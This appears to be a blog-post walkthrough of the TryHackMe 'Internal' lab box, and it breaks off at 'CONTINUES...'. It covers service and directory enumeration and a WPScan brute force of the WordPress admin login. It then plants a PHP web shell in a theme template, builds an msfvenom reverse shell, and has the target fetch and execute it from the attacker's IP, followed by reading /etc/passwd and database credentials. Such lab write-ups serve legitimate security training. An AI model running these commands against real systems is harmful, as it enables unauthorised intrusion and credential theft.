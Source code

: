 +++
title = 'Internal Write Up'
date = 2024-02-14T08:50:55+02:00
draft = false
tags = ["tryhackme", "security", "pentest", "oscp"]
+++

Box: Medium
Platform: Try Hack Me
Grade: Medium

## Service Enumeration

````
sudo nmap -sC -sV 10.10.52.194

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.57 seconds
````

### SSH

OpenSSH 7.6p1. 

### Web

Apache httpd 2.4.29.

Only default page is shown. The logical next step is to try to find the directory structure of the server.

```
gobuster dir -u http://10.10.52.194 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --no-error

http://10.10.52.194/phpmyadmin/index.php
http://10.10.52.194/blog
http://10.10.52.194/wordpress
```

It seems the site is running Worpress. Trying to log to phpmyadmin with default credentials doesn't work. Browsing to /wordpress shows that the page tries to reach out to its own domain name internal.thm. Adding that to /etc/hosts.

### Wordpress

Running WPScan to reveal potential vulnerabilities.

````
sudo wpscan -e ap -t 500 --url http://internal.thm/blog
````

WordPress 5.4.2 and no plugins installed. Which is a bummer because plugins are a great point of entry. 

Trying the WP admin panel at http://internal.thm/blog/wp-login.php to enumerate valid usernames. Admin is a valid user according to error message.

At this point I couldn't find an obvious vulnerability for WP so I resorted to trying to brute force the admin login. I'm not a fan of brute forcing anything so this should be used as a last resort if nothing else offers an opportunity. 

````
sudo wpscan --password-attack xmlrpc -t 20 -U admin -P /usr/share/wordlists/rockyou.txt --url http://internal.thm/wordpress
````

Much to my surprise brute force attempt was succesful and I found the admin password. The next step is easy. Let's attempt to exploit WP Themes Editor. 

## Initial Access

So logged in as admin browsing to Theme Editor.
Edit Twenty Seventeen: 404 Template

```
# Adding a simple web shell after the initial comments.
system($_GET[cmd]);

# Testing the shell
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=id
```

````
# Enumerating OS users
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=cat+/etc/passwd

aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
````

So it seems that the system has one standard user and one service account user which suggest MySQL runs on the box. 

Webshell works but the next step is to upgrade the shell. 

## Shell Upgrade

````
# Create shell and listener
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.67.91 LPORT=4444 -f elf > shell.elf
rlwrap nc -nvlp 4444

# Enable Python web server
python -m http.server 8000

# Execute the shell
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=curl+http://10.11.67.91:8000/shell.elf+-o+/tmp/shell.elf 
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=chmod+700+/tmp/shell.elf   
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=/tmp/shell.elf 

# Upgrade to interactive
python -c 'import pty; pty.spawn("/bin/bash")'
````

## Operating System Enumeration

The config file wp-config.php reveals a hardcoded MySQL username and password.

```
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'

<ss$ cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'wordpress' );
```

## MySQL Enumeration

````
show databases;
use wordpress;
show tables;
select * from wp_users;
````

Only admin user was found. It doesn't give anything new as I already have WP admin account. 




CONTINUES...